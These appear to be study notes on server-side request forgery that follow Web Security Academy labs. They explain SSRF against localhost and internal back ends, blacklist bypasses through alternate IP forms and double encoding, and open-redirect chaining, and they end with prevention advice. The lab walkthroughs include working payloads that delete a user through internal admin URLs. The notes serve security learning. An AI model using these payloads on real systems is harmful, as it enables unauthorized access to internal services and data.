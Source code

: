 - It allows an attacker to cause the server-side application to make requests to an unintended location.

- A vulnerability that lets an attacker send requests on behalf of a server.

- A successful SSRF attack can often result in unauthorized actions or access to data in the vulnerable application or on other back-end systems that the application can communicate with.

- SSRF attacks can exploit open redirections, proxy services or simple URL vulnerabilities (POST body headers or *Referer* header).

### Types of SSRF:

- **Against the server itself**
- **Against other backend systems**
- **Blind SSRF**

## SSRF attacks against the server itself

The attacker causes the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface. This typically involves supplying a URL with a hostname like `127.0.0.1` or `localhost`.

For example, imagine a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs. It does this by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. When a user views the stock status for an item, their browser makes the following request:

```http
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this example, an attacker can modify the request to specify a URL local to the server:

```http
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 
stockApi=http://localhost/admin
```

The server fetches the contents of the `/admin` URL and returns it to the user, but the administrative functionality is normally only accessible to authenticated users. This means an attacker won't see anything of interest. However, if the request to the `/admin` URL comes from the local machine, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location.

###### Lab: Basic SSRF against the local server

Intercept the `POST` request for checking the stock of a product:

```http
POST https://0a9600f904f43d3f844b91a500a20013.web-security-academy.net/product/stock HTTP/1.1
```

and edit the body from this:
```http
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
``` 

to this `stockApi=http://localhost/admin/delete?username=carlos`

## SSRF attacks against other back-end systems

In some cases, the application server is able to interact with back-end systems that are not directly reachable by users. In many cases, internal back-end systems contain sensitive functionality that can be accessed without authentication by anyone who is able to interact with the systems.

In the previous example, imagine there is an administrative interface at the back-end URL `https://192.168.0.68/admin`. An attacker can submit the following request to exploit the SSRF vulnerability, and access the administrative interface:

```http
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 
stockApi=http://192.168.0.68/admin
```

###### Lab: Basic SSRF against another back-end system

Intercept the `POST` request for checking the stock of a product:

```http
POST https://0ad700cb04b453db803c76ba000a00ac.web-security-academy.net/product/stock HTTP/1.1
```

and edit the body from this:
```http
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
``` 

to this `stockApi=http://192.168.0.0:8080/admin`. Then fuzz on the IP address (last 256 digits) and take the IP address with the 200 OK response: send again the request with the body `stockApi=http://192.168.0.249:8080/admin/delete?username=carlos` to delete carlos user. 

## Circumventing common SSRF defenses

It is common to see applications containing SSRF behavior together with defenses aimed at preventing malicious exploitation. Often, these defenses can be circumvented.

### SSRF with blacklist-based input filters

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can often circumvent the filter using the following techniques:

- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.

###### Lab: SSRF with blacklist-based input filter

Intercept the `POST` request for checking the stock of a product and edit the body:

```http
http://127.1/%2561dmin/delete?username=carlos
```

Practically, we have URL double encoded the 'a' character of admin and changed `localhost` to `127.1`.

### Bypassing SSRF filters via open redirection

It is sometimes possible to bypass filter-based defenses by exploiting an open redirection vulnerability.

In the previous example, imagine the user-submitted URL (`stockAPI`) is strictly validated to prevent malicious exploitation of the SSRF behavior. However, the application contains an open redirection vulnerability.

For example, the application contains an open redirection vulnerability in which the following URL:

`/product/nextProduct?currentProductId=6&path=http://evil-user.net`

returns a redirection to:

`http://evil-user.net`

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

```http
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 
stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

This SSRF exploit works because the application first validates that the supplied `stockAPI` URL is on an allowed domain, which it is. So the application sends a request to the `stockAPI` URL which then makes a redirection to `http://192.168.0.68/admin`.

###### Lab: SSRF with filter bypass via open redirection vulnerability

Notice that the "Next product" request has an open redirect:

```http
GET https://0a8e005504e77ce6806cd0e3002000ba.web-security-academy.net/product/nextProduct?currentProductId=2&path=/product?productId=3 HTTP/1.1
```

Now intercept the stock checker request and change the `stockApi` with `stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`. By doing so, the stock checker will call the nextProduct endpoint (with its open redirect) which will redirect to the admin page.

## Blind SSRF vulnerabilities

Blind SSRF vulnerabilities occur if you can cause an application to send a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

Blind SSRF is harder to exploit but sometimes leads to full remote code execution (**RCE**) on the server or other back-end components.

## Prevention

- **Allow lists** (preferred): requests must contain URLs in the list, otherwise they are rejected. Be aware of regexes: they are often used improperly!
- **Disallow lists (or blocklists)**: requests must not contain URLs in the list, otherwise they are rejected. There's always the possibility to bypass the disallow list: if we have disallowed `localhost`, be aware of all its other representations and before checking the disallow list (validation), be sure that the input is in canonical form!
- Don’t allow external links and (if possible) open redirects!